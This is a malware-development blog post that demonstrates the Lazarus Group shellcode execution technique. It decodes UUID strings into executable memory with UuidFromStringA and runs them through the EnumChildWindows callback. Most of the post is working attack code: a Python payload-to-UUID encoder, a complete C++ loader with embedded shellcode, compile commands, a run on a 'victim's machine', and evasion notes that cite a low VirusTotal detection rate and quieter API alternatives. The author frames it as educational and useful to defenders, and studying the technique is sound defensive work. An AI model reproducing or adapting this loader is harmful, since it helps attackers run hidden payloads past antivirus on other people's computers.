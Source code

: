 ```yaml
---
title:  "Malware development tricks. Run shellcode like a Lazarus Group. C++ example."
date:   2022-07-21 03:00:00 +0300
header:
  teaser: "/assets/images/63/2022-07-22_09-57.png"
categories:
  - malware
tags:
  - injection
  - windows
  - malware
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![injection](/assets/images/63/2022-07-22_09-57.png){:class="img-responsive"}    

This post is the result of self-researching interesting trick: run payload via `UuidFromStringA` and for example `EnumChildWindows`.    

### UuidFromStringA

This function converts a string to UUID:

```cpp
RPC_STATUS UuidFromStringA(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```
Without using standard functions like `memcpy` or `WriteProcessMemory`, this function can be used to decode data as well as write it to memory.     

The shellcode execution technique is comprised of the subsequent steps:

- Allocate memory via `VirtualAlloc`    
- Use `UuidFromStringA` to convert UUID strings their binary format and store in memory    
- Use `EnumChildWindows` (or `EnumDesktopsA` or another candidate) to execute the payload previously loaded into memory      

### practical example

Let's go to look at a practical example. The trick is pretty simple, similar to [previous](/tutorial/2022/06/27/malware-injection-20.html) tricks, but with some changes specific for Lazarus Group.     

First of all, we need script to convert our desired payload to UUID valid strings. Something like this (`payload_uuid.py`):

```python
#!usr/bin/python3

from uuid import UUID
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-p','--payload', required = True, help = "payload: binary file")
args = vars(parser.parse_args())
pbin = args['payload']

with open(pbin, "rb") as f:
    # read in 16 bytes from our input payload
    chunk = f.read(16)
    while chunk:
        # if the chunk is less than 16 bytes then we pad the difference (x90)
        if len(chunk) < 16:
            padding = 16 - len(chunk)
            chunk = chunk + (b"\x90" * padding)
        print(UUID(bytes_le=chunk))
        chunk = f.read(16)
```        

As usually, I will use my `meow-meow` messagebox payload: `meow.bin`.

Run:

```bash
python3 payload_uuid.py -p meow.bin
```
![injection](/assets/images/63/2022-07-22_10-46.png){:class="img-responsive"}    

Since we already have our payload in UUID format, we are able to construct our proof-of-concept code to test the following:     

```cpp
#include <windows.h>
#include <rpc.h>
#include <iostream>

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] = {
  "e48148fc-fff0-ffff-e8d0-000000415141",
  "56515250-3148-65d2-488b-52603e488b52",
  "8b483e18-2052-483e-8b72-503e480fb74a",
  "c9314d4a-3148-acc0-3c61-7c022c2041c1",
  "01410dc9-e2c1-52ed-4151-3e488b52203e",
  "483c428b-d001-8b3e-8088-0000004885c0",
  "01486f74-50d0-8b3e-4818-3e448b402049",
  "5ce3d001-ff48-3ec9-418b-34884801d64d",
  "3148c931-acc0-c141-c90d-4101c138e075",
  "034c3ef1-244c-4508-39d1-75d6583e448b",
  "01492440-66d0-413e-8b0c-483e448b401c",
  "3ed00149-8b41-8804-4801-d0415841585e",
  "58415a59-5941-5a41-4883-ec204152ffe0",
  "5a594158-483e-128b-e949-ffffff5d49c7",
  "000000c1-3e00-8d48-95fe-0000003e4c8d",
  "00010985-4800-c931-41ba-45835607ffd5",
  "41c93148-f0ba-a2b5-56ff-d54d656f772d",
  "776f656d-0021-5e3d-2e2e-5e3d00909090"
};

int main() {
  int elems = sizeof(uuids) / sizeof(uuids[0]);
  VOID* mem = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000, PAGE_EXECUTE_READWRITE);
  DWORD_PTR hptr = (DWORD_PTR)mem;
  for (int i = 0; i < elems; i++) {
    // printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
    // printf("%s\n", *(uuids+i));
    RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
    RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
    if (status != RPC_S_OK) {
      printf("[-] UUID convert error\n");
      CloseHandle(mem);
      return -1;
    }
     hptr += 16;
  }

  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  // EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  CloseHandle(mem);
  return 0;
}
```

Pay attention to the function `UuidFromStringA`. As I wrote earlier, invoking this API with a memory pointer instead of a UUID pointer will result in the binary representation of the given UUID being stored in memory.     

By chaining many API requests and giving properly designed UUIDs, it is possible to load the necessary content (payload) into the chosen memory region.   

And then, as a pointer to the callback function in `EnumChildWindows` we specify this memory region:   

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

or another function `EnumDesktopsA`:    

```cpp
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

### demo

Let's go to see everything in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lrpcrt4
```

![injection](/assets/images/63/2022-07-22_10-56.png){:class="img-responsive"}    

and run in our victim's machine:    

```powershell
.\hack.exe
```

![injection](/assets/images/63/2022-07-22_10-58.png){:class="img-responsive"}    

To make sure that our payload was really launched, you can slightly change a piece of code:

```cpp
printf("[*] Hexdump: ");
for (int i = 0; i < elems*16; i++) {
  printf("%02X ", ((unsigned char*)mem)[i]);
}
```

Then compile again:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lrpcrt4
```

![injection](/assets/images/63/2022-07-22_11-07.png){:class="img-responsive"}    

and run again:   

```powershell
.\hack.exe
```

![injection](/assets/images/63/2022-07-22_11-09.png){:class="img-responsive"}    

As you can see, everything is work perfectly :)    

Let's go to upload `hack.exe` to VirusTotal:    

![injection](/assets/images/63/2022-07-22_14-59.png){:class="img-responsive"}    

**So, 6 of 68 AV engines detect our file as malicious.**    

[https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection](https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection)    

There is a caveat. Lazarus Group uses functions `HeapCreate` and `HeapAlloc` instead:    

```cpp
HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
void* mem = HeapAlloc(hc, 0, 0x100000);
```

`HeapAlloc` is a frequently used API call for allocating heap memory.    
This API, as far as I can tell, allows you to allocate specified amounts of memory on the heap, as opposed to the memory blocks obtained using the `VirtualAlloc` API.
However, according to the documentation, `HeapAlloc` can still call `VirtualAlloc` if necessary.    

It also has the advantage that this API is not so suspicious.    

Also Lazarus Group uses function `EnumSystemLocalesA` for execute payload.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[nccgroup - RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)      
[Lazarus Group](https://attack.mitre.org/groups/G0032/)    
[source code in github](https://github.com/cocomelonc/2022-07-21-malware-tricks-22)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
